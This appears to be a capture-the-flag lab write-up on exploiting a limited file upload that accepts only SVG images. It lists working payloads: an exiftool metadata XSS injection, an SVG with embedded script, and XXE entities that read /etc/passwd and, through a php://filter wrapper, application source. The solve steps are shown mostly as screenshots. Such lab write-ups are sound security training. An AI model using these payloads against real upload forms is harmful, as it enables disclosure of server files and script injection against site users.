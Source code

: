 # Limited File Uploads

- The above exercise contains an upload functionality that should be secure against arbitrary file uploads.
 Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

  `Hint`: Use an attack that can read files, and don't forget to check the page source!
- Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)
  
  `Hint`: Use a different payload to read source code.
---
## Possible Attacks

If the web applications displays an image's metadata after its upload, we can perform the following attack:
- `XSS` via comment injection:
  ```bash
  exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
  ```
  `Note`: It is possible to perform this attack using one of the Metadata parameters that accept raw text, like the `Comment` or 
  `Artist` parameters. Furthermore, if we change the image's MIME-Type to text/html, some web applications may show it as an HTML 
  document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
- `XSS` via HTB.svg:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
      <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
      <script type="text/javascript">alert(window.origin);</script>
  </svg>
  ```
- `XXE` via `.svg` file:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
- `XXE` via `.svg` file with `PHP Wrappers`:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```
---


We attempted to upload a simple `.png` image but we received the response with the message "Only SVG images are allowed":
![image](https://github.com/user-attachments/assets/36479000-2f72-4e4b-8893-99deeb070204)

Since only `.svg` extensions are allowed, we attempt to upload a basic `.svg` image:
![image](https://github.com/user-attachments/assets/c958b80b-f3c5-4f0c-ba94-362fc3033bca)
We discover that the page is displaying the image previously loaded by reading de source code from the backend:
![image](https://github.com/user-attachments/assets/120ad4f8-7ab8-42c7-93cc-d1904a5ecd0b)
![image](https://github.com/user-attachments/assets/eae9ef81-0d82-4812-89c1-34f48ad16fdf)



We performed a `XSS` attack via `.svg` upload:
![image](https://github.com/user-attachments/assets/1d6ebcf9-91d4-4f2f-b4e9-fed9a43451ab)
![image](https://github.com/user-attachments/assets/272a725a-ae20-4873-b278-32c3e253d3f1)
![image](https://github.com/user-attachments/assets/06358b9a-0a9e-48fa-b253-d6687a6899b7)

Then we performed a `XXE` attack in order to get the content of the `/flag.txt` file:
![image](https://github.com/user-attachments/assets/d9f1a541-f7fb-4ab3-97e7-dac94709eac5)
![image](https://github.com/user-attachments/assets/fa0b467f-639f-4f5d-97f1-fe024e57d6fa)


To read the source code of `upload.php` we perform a `XXE` attack via `PHP Wrapper`:
![image](https://github.com/user-attachments/assets/ff931621-7fcc-4075-9c62-a9153bc23c57)
![image](https://github.com/user-attachments/assets/7beb39b8-141b-46f0-8e7a-3404be459892)

Then we get de raw source code and solve the lab:
![image](https://github.com/user-attachments/assets/282bacad-57ed-49dd-aa1c-2c819661e353)






